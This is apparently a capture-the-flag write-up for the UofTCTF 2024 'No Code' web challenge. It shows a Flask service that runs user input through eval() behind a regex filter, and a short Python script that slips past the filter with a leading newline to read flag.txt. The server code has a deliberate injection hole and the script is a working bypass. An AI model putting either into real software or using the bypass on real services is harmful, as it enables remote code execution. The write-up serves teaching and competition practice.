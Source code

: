 ```yaml
---
title: No Code
date: 2024-01-16
tags: 
- web
- author-hartmannsyg
categories: UofTCTF 2024
---
```


solved by {% person hartmannsyg %}

```python
from flask import Flask, request, jsonify
import re

app = Flask(__name__)

@app.route('/execute', methods=['POST'])
def execute_code():
    code = request.form.get('code', '')
    if re.match(".*[\x20-\x7E]+.*", code):
        return jsonify({"output": "jk lmao no code"}), 403
    result = ""
    try:
        result = eval(code)
    except Exception as e:
        result = str(e)

    return jsonify({"output": result}), 200

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=1337, debug=False)
```

We see that it uses a regex `/.*[\x20-\x7E]+.*` to filter it from any "normal" ascii characters.

However, we can simply send a newline to overcome this (thanks {% person squiddy %}):

```python
import requests

code = """\nopen("flag.txt").read()"""

a = requests.post('https://uoftctf-no-code.chals.io/execute',{"code": code})
print(a.text)
```
